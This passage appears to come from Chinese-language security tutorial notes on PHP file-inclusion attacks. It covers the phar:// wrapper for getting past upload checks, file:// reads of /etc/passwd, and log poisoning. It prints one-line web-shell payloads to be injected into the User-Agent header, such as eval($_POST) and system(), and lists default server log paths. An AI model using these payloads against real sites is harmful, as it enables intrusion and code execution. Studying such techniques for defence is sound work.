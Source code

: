 ### 7. phar://协议
phar:// 有点类似zip://同样可以导致 任意代码执行。

区别就是：phar://中相对路径和绝对路径都可以使用
![在这里插入图片描述](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/228af46c63b14eb381c48c7e15a410b2.png)
phar://：PHP 归档，常常跟文件包含，文件上传结合着考察。当文件上传仅仅校验mime类型与文件后缀，可以通过以下命令进行利用
[例子](https://www.jianshu.com/p/472a6cb278d3)
```
nac.php(木马)->压缩->nac.zip->改后缀->nac.jpg->上传->phar://nac.jpg/nac.php
从而绕过。
```
###  8.file协议
用于访问本地文件系统，并且不受allow_url_fopen,allow_url_include的影响
file协议可以访问文件的绝对路径，相对路径
file://还经常和curl函数(SSRF)结合在一起
如：?file=file:///etc/passwd，有三条斜杠
[例子1](https://www.jianshu.com/p/4c2b9e655e3c)
[例子2](https://www.jianshu.com/p/c60aeca68e03)
###  总结
![在这里插入图片描述](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/8d46afc1fd234cf49a3d2b94ae1fc078.png)

###  日志包含
####  介绍
  WEB服务器一般会将用户的访问记录保存在访问日志中。那么我们可以根据日志记录的内容，精心构造请求，把PHP代码插入到日志文件中，通过文件包含漏洞来执行日志中的PHP代码。
####  利用条件
- 对日志文件可读取
- 知道日志文件的存储目录，一般可以通过phpinfo()，来读取日志文件
![在这里插入图片描述](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/1b9a78f910ad4c9cb9f8bd014353ceb0.png)
####  漏洞利用流程
```
原理
如果访问一个不存在的资源时，如http://www.xxxx.com/<?php phpinfo(); ?>,则会记录在日志中，一般
我们是把恶意代码写入UA头里。但是代码中的敏感字符会被浏览器转码，我们可以通过burpsuit绕过
编码，就可以把<?php phpinfo(); ?> 写入apache，iis或者nginx的日志文件，然后可以通过包含日志文件来执行此代码，但前提是你得知道中间件日志文件的存储路径。
流程：
先刷新网页或者上传文件抓包，改UA头为恶意代码，<?php eval($_POST[1]);?>,<?php system("tac ../f*");>，
然后访问日志文件，执行恶意代码
```
####  日志文件路径
```
一）日志默认路径
(1) apache+Linux日志默认路径
        /etc/httpd/logs/access_log
或者
        /var/log/httpd/access_log
(2) apache+win2003日志默认路径
        D:\xampp\apache\logs\access.log
        D:\xampp\apache\logs\error.log
(3) IIS6.0+win2003默认日志文件
        C:\WINDOWS\system32\Logfiles
(4) IIS7.0+win2003 默认日志文件
        %SystemDrive%\inetpub\logs\LogFiles
(5) nginx 日志文件
        日志文件在用户安装目录logs目录下
                以我的安装路径为例/usr/local/nginx,
                那我的日志目录就是在/usr/local/nginx/logs里
+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
二）web中间件默认配置
(1) apache+linux 默认配置文件
```